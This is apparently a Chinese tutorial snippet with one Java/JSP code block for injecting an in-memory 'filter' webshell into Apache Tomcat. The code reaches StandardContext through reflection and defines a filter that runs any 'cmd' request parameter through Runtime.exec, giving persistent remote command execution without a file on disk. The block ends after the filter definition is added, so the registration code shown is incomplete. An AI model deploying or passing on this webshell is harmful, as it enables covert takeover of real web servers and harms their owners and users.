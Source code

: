 ### JSP 写入 filter 内存马

完整代码：
```java
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.util.Map" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>


<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>

<%! public class Shell_Filter implements Filter {
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    public void destroy() {
    }

    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                e.printStackTrace();
            } catch (NullPointerException n) {
                n.printStackTrace();
            }
        }
        chain.doFilter(request, response);
    }
}
%>

<%
    Shell_Filter filter = new Shell_Filter();
    String name = "CommonFilter";
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    standardContext.addFilterDef(filterDef);


```